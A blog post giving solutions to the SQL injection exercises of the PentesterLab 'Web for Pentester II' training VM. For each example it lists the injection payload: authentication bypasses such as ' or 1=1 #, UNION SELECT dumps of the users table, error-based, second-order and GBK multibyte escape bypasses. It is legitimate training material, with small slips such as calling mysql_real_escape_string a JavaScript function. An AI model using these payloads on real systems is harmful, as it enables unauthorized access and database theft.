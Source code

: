 ```yaml
---
layout: post
title: Web for Pentester II - SQL Injection
date: 2015-08-20 
author: yzh503
summary: All the solutions of SQL injection part of Web for Pentester II
categories: Web_Penetration
tags: 
 - Web penetration
 - SQL injection
---
```


##Background 
SQL injection is a type of vulnerabilities of SQL syntax. Based on SQL commands knowledgement, you can insert your own query into the origin code to bypass the authentication page or to get sensitive information. There are a bunch of good free examples for web penetration testing in [Pentester Lab](http://pentesterlab.com). In this article, we will go through each example of SQL injection in [Web for Pentester II](https://pentesterlab.com/exercises/web_for_pentester_II). Make sure you give the VM at least 1 GB of RAM, and host-only network. OK, now open the page and get started, Using nmap or typing ifconfig in the VM to get the IP. 

##Solutions 
############Example 1
It's pretty straightforward. Use the very basic injection technique. Type the following in the username. As the course of pentester lab stated, password is usually hashed or encrypted, so it's better to perform this in username.
{% highlight mySQL %}
' or 1=1 #
{% endhighlight %}
Note that assume the original query is like
{% highlight mySQL%}
SELECT * FROM users WHERE username='******' AND password='******'
{% endhighlight %}
single quote ' can be used to escape from string, and insert query. After we send the request, the query would be like 
{% highlight mySQL%}
SELECT * FROM users WHERE username='' or 1=1 # ' AND password=''
{% endhighlight %}
The WHERE clause became always true, and things after # was commented out, so then the server got a result, and we are done.


######Example 2
In this example, the number of users returned is restricted.
{% highlight mySQL %}
' or 1=1 LIMIT 1 #
{%endhighlight%}


######Example 3
In this example, single quotes are removed in the query, but it's still breakable by using '\'. The query will become like
{% highlight mySQL %}
SELECT * FROM users WHERE username='\' AND password=' or 1=1 #'
{%endhighlight%}
The second single quote is turned to a character by backslash. The actual username in the query is "\' AND password=". The string is closed by the first quote of password.

######Example 4
There is no text box, so look at the address bar. 
{% highlight mysql %}
.../example4/?req=username%3d%27hacker%27
{% endhighlight  %}
Decode the url, 
{% highlight mysql %}
username='hacker'
{% endhighlight %}
This gives the server a username, and this string is likely to be in WHERE clause. To confirm this, change the url to
{% highlight mysql %}
.../example4/?req=username='
{% endhighlight %}
This gives you an sql query error, which shows the actual query. The entire string after "req=" is in WHERE clause. Chagne the url to this.
{% highlight mysql %}
.../example4/?req=' or 1=1 #
{% endhighlight %}


######Example 5
This is a union-based SQL injection.
{%highlight mysql%}
.../example5/?limit=3 union all select * from users
{%endhighlight%}


######Example 6 
Change the url to
{%highlight mysql%}
.../example5/?group=username union all select * from users
{%endhighlight%}
or simple delete group
{%highlight mysql%}
.../example5/?
{%endhighlight%}
This is a dump example using group by.


######Example 7
Pentester lab provides an error-pone statement, 
{%highlight mysql%}
extractvalue('%3Cxml%3E',concat(%22/%22,(select%20version())))
{%endhighlight%}
but I prefer to just use a single quote here, which has the same result on web for pentester II pages.
With an error message displayed, you can easily see the structure of the query.
![msg](http://i.imgur.com/1iWLWTB.png) 
Same as example 6, delete suffix or use union-based injection to display all users.


######Example 8
Create a few users randomly first. Create a new user named the following:
{%highlight mysql%}
' union all select * from users where username='whatever_you_want_to_check' #
or 
' union all select * from users where id='whichever_you_want_to_check' #
{%endhighlight%}
With this user, you may check any user you want. The vulnerability of this one is that the value coming crom database is usually seen as trustable.


######Example 9
This page uses a Javascript function  mysql_real_escape_string(), which removes any escape that you enter in. However, this function does not work properly with GBK character. with a GBK character, followed by a single quote, this quote will not be removed. Enter the following to bypass the authentication.
{%highlight mysql%}
呵' or 1=1 #
{%endhighlight%}



